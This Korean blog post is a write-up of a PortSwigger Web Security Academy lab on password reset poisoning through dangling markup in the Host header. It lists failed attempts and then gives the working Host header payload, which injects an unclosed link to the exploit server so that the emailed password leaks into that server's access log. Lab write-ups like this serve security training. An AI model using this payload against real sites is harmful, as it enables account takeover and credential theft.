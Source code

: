 ```yaml
---
layout: post
title: "Burp Academy-Host 헤더 관련 취약점: Password reset poisoning via dangling markup"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, Host헤더]
toc: true
last_modified_at: 2023-12-18 09:50:00 +0900
---
```


# 개요
- HTTP Host 헤더 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-password-reset-poisoning-via-dangling-markup
- 취약점 설명페이지: https://portswigger.net/web-security/host-header
- 난이도: EXPERT (어려움)

# 랩 개요
- 이 랩은 dangling markup을 통한 password reset poisoning 취약점이 있다. 
- wiener:peter로 로그인할 수 있다. 이 계정으로 보낸 메일은 exploit서버에서 확인할 수 있다. 
- Carlos 유저의 계정으로 로그인하면 문제가 풀린다. 
- 힌트: 서버측에 바이러스 스캔 SW가 동작하고 있다. 이메일 링크를 스캔하고 있다. 

```
This lab is vulnerable to password reset poisoning via dangling markup. To solve the lab, log in to Carlos's account.

You can log in to your own account using the following credentials: wiener:peter. Any emails sent to this account can be read via the email client on the exploit server.

Hint. Some antivirus software scans links in emails to identify whether they are malicious.
```

# 풀이 시도 
- 드디어 호스트 헤더 인젝션 문제들중에서 가장 마지막 끝판왕문제가 나왔다. 
- 호스트헤더 인젝션문제들 중에서 가장 먼저 풀었던 문제-패스워드 재설정 링크-의 강화판이다. 서버측에 바이러스 스캔 SW가 동작하고 있다. email링크 스캔을 우회하는 방법을 생각해야 한다. 

이제까지 배운 테크닉들 다 써본다. 
- 더블 Host헤더 : 안됨
- 싱글 커넥션으로 두 개의 서로다른 Host헤더 요청 연속으로 보내기: 안됨
- 싱글 커넥션으로 두 개의 서로다른 Host헤더 요청 동시에 보내기 (레이스 컨디션): 안됨
- 서브도메인 (도메인 전방일치, ex) 0a3a009d031c412f844c2324006800d9.web-security-academy.net.exploit-0a9f00e60350411f847222b901da00da.exploit-server.net): 안됨
- URL에 절대경로 지정: 안됨 
- Burp Collaborator: 안됨
- uppercase (EXPLOIT-0A9F00E60350411F847222B901DA00DA.EXPLOIT-SERVER.NET): 안됨
- 도메인연결스트링:0a3a009d031c412f844c2324006800d9.web-security-academy.net@@exploit-0a9f00e60350411f847222b901da00da.exploit-server.net: 안됨 

음.. 다 안된다. 답을 본다. 

# 답 보고 풀이
1. 패스워드 메일 전송 과정을 유심히 살펴본다. 

새로운 패스워드가 이메일에 바로 적혀있는 것을 알 수 있다. (눈치가 빠르다면 exploit서버의 억세스로그를 통해 패스워드를 알아내는 방식이라고 유추할 수 있다.)

![새로운 패스워드 확인](/images/burp-academy-host-header-7-1.png)

또한 exploit서버와의 통신도 Burp Proxy로 확인해보면 `GET /email` 요청의 응답을 볼 수 있다. 

이를 통해 다음을 알 수 있다. (또는 유추할 수 있다. )
- 화면에 보며지는 부분의 HTML코드가 일단 data-dirty라는 속성으로 표시된다.
- DOMPurity를 사용해서 sanitize한 값을 HTML 페이지에 렌더링한다. 
- 아마도 Host헤더의 값이 /login 링크의 도메인 값으로 설정된다. 

![/email 응답 확인](/images/burp-academy-host-header-7-2.png)

2. Host헤더 인젝션이 가능한 값을 알아낸다. 

- 테스트해보면 포트 부분(:이후 값)은 체크를 하지 않는다는 것을 알 수 있다. 
- 그리고 email 을 확인해보면 포트부분 이후가 링크로 나타나는 것을 볼 수 있다. 

![Host헤더 인젝션이 가능한 값 확인](/images/burp-academy-host-header-7-4.png)


3. 따라서 포트 부분에 exploit서버의 링크를 넣어서 보내본다. 다음과 같다.

```
0a6900b4045d301a806780b900580067.web-security-academy.net:'<a href="//exploit-0a8a00a4046b303b80857fd101fb000c.exploit-server.net/?
```

그러면 200응답이 회신된다. exploit서버를 확인해본다. 그러면 다음과 같이 HTML의 화면이 일부분만 표시되는 것을 볼 수 있다. 

![/email 응답 확인2](/images/burp-academy-host-header-7-3.png)

이 때의  email 응답 페이지는 다음과 같다. 삽입한 a 태그를 볼 수 있다. 원래의 a 태그가 닫히기 전에 또 다른 a 태그가 삽입된 것이다(dangling a tag). 웹 브라우저에 따라서는 유저가 클릭했을 때 새로 삽입된 a 태그가 동작되기도 하는 것 같다. (크롬에서는 클릭해보면 about:blank#blocked 라는 링크로 이동된다.)

![/email 응답 확인3](/images/burp-academy-host-header-7-5.png)

4. exploit서버의 억세스 로그를 보면 유저가 링크를 클릭해서 로그가 남겨진 것을 볼 수 있다. 여기에 패스워드도 포함되어 있다. 

![exploit서버 억세스 로그확인](/images/burp-academy-host-header-7-6.png)

5. 이제 같은 요령으로 `POST /forgot-password` 요청에서 username을 carlos로 변경해서 요청을 보낸다. 그리고 exploit서버 억세스 로그를 확인해보면 carlos유저가 링크를 클릭한 로그를 볼 수 있다. 이 패스워드로 로그인하면 문제가 풀린다. 

![풀이 성공](/images/burp-academy-host-header-7-success.png)
